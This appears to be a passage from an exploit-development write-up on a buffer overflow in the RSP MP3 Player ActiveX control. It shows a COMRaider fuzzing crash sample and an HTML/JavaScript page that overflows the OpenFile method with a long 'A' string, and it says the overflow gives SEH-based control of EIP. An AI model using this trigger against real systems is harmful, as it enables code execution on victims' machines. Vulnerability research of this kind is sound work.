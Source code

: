 Open one of the crash samples.
```
<?XML version='1.0' standalone='yes' ?>
<package><job id='DoneInVBS' debug='false' error='true'>
<object classid='clsid:3C88113F-8CEC-48DC-A0E5-983EF9458687' id='target' />
<script language='vbscript'>

'File Generated by COMRaider v0.0.134 - http://labs.idefense.com

'Wscript.echo typename(target)

'for debugging/custom prolog
targetFile = "C:\workspace\rspmp3\rspmp3ocx320sw.ocx"
prototype  = "Function OpenFile ( ByVal Inputfile As String )"
memberName = "OpenFile"
progid     = "RSPMP3_320.RSPMP3"
argCount   = 1

arg1=String(1044, "A")

target.OpenFile arg1 

</script></job></package>
```

After a bit of sleuthing and converting the vbscript to javascrip I came up with the html below that will trigger the crash. We gain control over EIP through the Structured Exception Handler.
```
<html>
  <head>
    <object id="rsp" classid='clsid:3C88113F-8CEC-48DC-A0E5-983EF9458687'></object>
  </head>
  <body>
  <script>
     
    pointer='';
    for (counter=0; counter<=1000; counter++) pointer+=unescape("%41");
    rsp.OpenFile(pointer);
     
  </script>
</body>
</html>
```
![](/assets/img/exploit/2018-08-15-rsp-mp3-player-ocx-activex-buffer-overflow/0x006.png)
